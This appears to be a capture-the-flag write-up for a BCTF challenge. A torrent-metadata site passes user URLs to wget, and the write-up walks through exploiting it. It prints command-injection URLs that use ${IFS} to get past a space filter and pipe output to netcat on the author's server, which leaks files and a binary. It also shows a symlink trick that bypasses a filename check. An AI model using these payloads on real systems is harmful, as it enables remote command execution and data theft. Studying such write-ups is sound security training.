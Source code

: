 Torrent Lover
-------------

In this problem, we were given a website with a form and the instructions: "input something(torrent)'s URL u wanna know here". If you entered a link with a torrent file, the website would direct you to a page where you could view metadata about the torrent. The server performed some kind of validation on the url you gave it. Entering a url with a space, or and url that didn't end in ".torrent" would give you an error message.

### Unsafe wget

First, I submitted a url that pointed to a torrentfile on a server I controlled. Looking at the user-agent in the request made, it was clear that the server was using the `wget` command to fetch my torrent file. With this knowledge. If the server was in fact using wget to fetch the urls we provided, we could likely get it to execute arbitary commands. As a simple POC, I gave it this url:
```
http://<myserver>/`uname`.torrent
```
This caused the server to make a request to my server for `/Linux.torrent`.

We could also get the server to run other arbitrary commands by append a semicolon, followed by the command we wanted to run.

### Shellcode without spaces

The validation on the server caused our requests to fail if the url we supplied contained a space. No worries though, we can simply use the internal file separator to get around this restriction.

Giving it the url
```
http://<myserver>/somefile;echo${IFS}test|nc${IFS}<myserver>${IFS}9999;.torrent
```

And listening on my server:
```
nc -l 9999
```

Caused the game server to send me the word "test". This means we can run arbitrary commands on the server, and see the output.

### Find the flag

First things first, I used the `find` command to file the flag on the server
```
http://<myserver>/somefile;find${IFS}/${IFS}-name${IFS}*flag*|nc${IFS}<myserver>${IFS}9999;.torrent
```

This revealed that there were `flag` and `use_me_to_read_flag` files in /var/ww/html/flag

Running the binary by submitting this url
```
http://<myserver>;/var/www/flag/use_me_to_read_flag${IFS}/var/www/flag/flag|nc${IFS}<myserver>${IFS}9999;.torrent
```
I see a message that says: `You do not have permission to access /var/www/flag/flag` Using ls -al to inspect the permissions, it appears that
the binary does have permissions to read the flag. We probably want to grab the binary and inspect it locally.

### A small bit of reverse engineering
Command to grab the binary:

```
http://<myserver>/;cat${IFS}/var/www/flag/use_me_to_read_flag|nc${IFS}<myserver>${IFS}9999;.torrent
```

And on my server:
```
nc -l 9999 > out.bin
```

Binary get!

Using `file`, I determine that it is an ELF. I run `ltrace` on it.

```
echo "test" > flag
ltrace out.bin flag
```

From the output, I can see that the binary does a `strstr` so see if the argument I provided contains the substring 'flag'.

So we can't directly read the flag, but that's no big deal. We can just make a symlink to the flag.

```
ln -s flag differnt_name
ltrace out.bin flag
```
It works! Now let's do that on the server. I submit the following two urls:

```
http://<myserver>/;/ln${IFS}-s${IFS}/var/www/flag/flag${IFS}/tmp/asdf;.torrent
```
and
```
http://<myserver>/;/var/www/flag/use_me_to_read_flag${IFS}/tmp/asdf|nc${IFS}<myserver>${IFS}9999;.torrent
```

And the server spits out the flag:
```
BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
```


